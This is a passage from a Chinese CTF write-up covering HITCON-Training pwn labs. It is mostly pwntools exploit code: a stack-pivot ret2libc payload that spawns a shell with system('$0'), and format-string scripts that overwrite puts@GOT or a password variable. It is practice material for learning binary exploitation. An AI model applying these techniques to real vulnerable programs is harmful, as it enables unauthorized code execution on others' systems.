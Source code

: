 ```python
#  print io.recv()
libcBase = u32(io.recv()[: 4]) - libc.sym['read']
success("libcBase -> {:#x}".format(libcBase))
pause()

payload = flat([bufAddr + 0x100, readPlt, p3ret, 0, bufAddr + 0x100, 0x100, libcBase + libc.sym['system'], 0xdeadbeef, bufAddr + 0x100])
io.send(payload)
sleep(0.1)
io.send("$0\0")
sleep(0.1)

io.interactive()
io.close()
```

稍微解释一下，先通过主函数中可以控制的 20个 字节将 esp 指针劫持到可控的 bss 段，然后就可以可以在 bss 段为所欲为了。

关于 stack-pivot，pwnable.kr 的 simple\_login 是很经典的题目，放上一篇这道题的很不错的 [**wp**](https://blog.csdn.net/yuanyunfeng3/article/details/51456049)

这个还有个问题，sendline 会 gg，send 就可以，在 atum 大佬的 [**博客**](http://atum.li/2016/09/20/ctf-strange/) 上找到了原因
另外不建议把迁移后的栈放在 bss 段开头, 因为 stdout, stdin, stderr 等结构体往往存储在这里, 破坏这些结构体很可能会引起输入输出的错误

### lab7-crack

输出 name 时有明显的格式化字符串漏洞，这个题的思路有很多，可以利用 fsb 改写 password，或者 leak 出 password，也可以直接通过 fsb，hijack puts\_got 到 system("cat flag") 处（注意这里 printf 实际调用了 puts）

```python
lab7 [master●●] cat hijack.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *

putsGot = 0x804A01C
bullet = 0x804872B

io = process("./crack")
payload = fmtstr_payload(10, {putsGot: bullet})
io.sendlineafter(" ? ", payload)

io.sendline()
io.interactive()
io.close()
lab7 [master●●] cat overwrite.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *

pwdAddr = 0x804A048
payload = fmtstr_payload(10, {pwdAddr: 6})

io = process("./crack")

io.sendlineafter(" ? ", payload)
io.sendlineafter(" :", "6")

io.interactive()
io.close()
lab7 [master●●] cat leak.py 
```
